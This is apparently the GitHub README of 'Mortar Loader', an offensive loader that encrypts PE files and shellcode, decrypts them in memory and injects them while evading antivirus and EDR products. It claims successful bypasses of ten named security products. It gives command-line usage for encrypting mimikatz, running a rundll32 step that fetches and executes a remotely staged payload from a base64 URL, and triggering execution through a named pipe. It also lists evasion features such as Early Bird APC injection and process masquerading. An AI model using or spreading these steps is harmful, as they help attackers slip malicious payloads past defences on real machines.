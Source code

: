 [<img src="https://img.shields.io/twitter/follow/zux0x3a?label=follow&style=social">](https://twitter.com/zux0x3a)

# Mortar Loader 

Red teaming evasion technique to defeat and divert detection and prevention of security products.Mortar Loader performs encryption and decryption PE/Shellcode inside the memory streams and execute it leveraging several injection techniques . 
Mortar is able to bypass modern anti-virus products and advanced XDR solutions and it has been tested and confirmed bypass for the following: 

* Kaspersky  :heavy_check_mark:
* ESET AV / EDR :heavy_check_mark:
* Malewarebytes :heavy_check_mark:
* Mcafee :heavy_check_mark:
* Windows defender :heavy_check_mark:
* Cylance :heavy_check_mark:
* TrendMicro :heavy_check_mark:
* Bitdefender :heavy_check_mark:
* Norton Symantec :heavy_check_mark:
* Sophos EDR :heavy_check_mark:


##  Updated features 

The newer version release (v3) has been released with the following features : 

* Fileless execution with remote staged encrypted binary or shellcode.
* Early Bird APC injection.
* Process masquerading.
* Supports Named Pipes.
* Strings and function calls obfuscation.
* Mortar covert reload subroutine.
* Delay execution techniques.

For more technical description, refer to the following blogpost : https://kpmg.com/nl/en/home/insights/2023/12/mortar-loader.html 

## Usage 

### Encryptor 

The encryptor encrypt C ShellCode and PE binaries and write the output into .enc file. 
you are allowed to use any payload(MSF/cobalt/Havoc..etc) as you prefer as long it is x64 arch and not RAW. 

```
root@kali>./encryptor -f mimikatz.exe -o bin.enc 

```

### Mortar Loader Library

The newer release leverage several techniques combined with remote payload fetching, recommend to refer to following blogpost to get more insights. 

for quick instructions 

```
# PE Forking

1. host your encrypted binary on remote host. 
2. encode the final URL with base64. 
3. rundll32.exe agressor.dll,viewlogs [BASE64 URL].
4. covert reload subroutine technique is enabled. 
```

currently supports early bird injection in combination with Named Pipes to receive variables for final execution.  
```
1. inject Mortar DLL into remote process( DLL injection, Hijacking, sideloading).
2. connect into the named pipe to supply your URL 
   echo {BASE64 URL} > [\\.\pipe\moj_ML_ntsvcs 
3. payload will be executed once valid value has been recieved. 
```

## Compiling 

the project has been coded using FPC(Free Pascal), the compiling procedures are straightforward by downloading and installing Lazarus IDE (https://www.lazarus-ide.org/index.php?page=downloads).

for the encryptor you you can download it from the release section or compile it easily with lazarus ide. 

```
#Debian & Ubuntu 

apt install fpc 
apt install lazarus-ide 

```

## Publications 

* The v1 release : https://0xsp.com/security%20research%20&%20development%20(SRD)/defeat-the-castle-bypass-av-advanced-xdr-solutions
* Mortar Loader v2 features : https://0xsp.com/offensive/mortar-loader-v2/
* CrestCon Asia 2021 talk : https://www.youtube.com/watch?v=H7EMBz7GLMk

## Sponsor ?
the development of mortar or any shared project is an outcome from my personal time.
- you show continues appreciation of my work. 
- you will get early access to pre-release. 
- ask questions / will be answered. 
